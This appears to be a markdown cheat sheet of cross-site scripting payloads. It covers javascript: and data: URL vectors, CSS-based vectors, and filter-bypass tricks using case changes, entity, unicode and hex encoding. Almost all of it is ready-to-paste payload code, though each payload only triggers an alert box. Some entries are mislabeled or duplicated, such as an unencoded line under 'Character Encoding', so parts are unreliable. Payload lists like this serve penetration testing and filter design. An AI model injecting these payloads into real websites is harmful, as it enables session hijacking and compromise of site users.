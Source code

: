 ## Advanced XSS Techniques

### JavaScript Protocol
```html
<a href="javascript:alert('XSS')">Click me</a>
<iframe src="javascript:alert('XSS')"></iframe>
<form><button formaction="javascript:alert('XSS')">Submit</button></form>
```

### Data URLs
```html
<iframe src="data:text/html,<script>alert('XSS')</script>"></iframe>
<object data="data:text/html,<script>alert('XSS')</script>"></object>
```

### CSS Based XSS
```html
<style>@import'javascript:alert("XSS")';</style>
<link rel=stylesheet href="javascript:alert('XSS')">
<style>body{background:url("javascript:alert('XSS')")}</style>
```

## Filter Bypass Techniques

### Case Variations
```html
<ScRiPt>alert('XSS')</ScRiPt>
<SCRIPT>alert('XSS')</SCRIPT>
<script>Alert('XSS')</script>
```

### Character Encoding
```html
<script>alert('XSS')</script>
<script>alert(&#x27;XSS&#x27;)</script>
<script>alert(&quot;XSS&quot;)</script>
```

### HTML Entity Encoding
```html
&lt;script&gt;alert('XSS')&lt;/script&gt;
&#x3C;script&#x3E;alert('XSS')&#x3C;/script&#x3E;
```

### Unicode Encoding
```html
<script>alert('\u0058\u0053\u0053')</script>
<script>alert('\x58\x53\x53')</script>
```

### Hex Encoding
```html
<script>alert('\x58\x53\x53')</script>
<img src=x onerror=\u0061\u006C\u0065\u0072\u0074(1)>
```
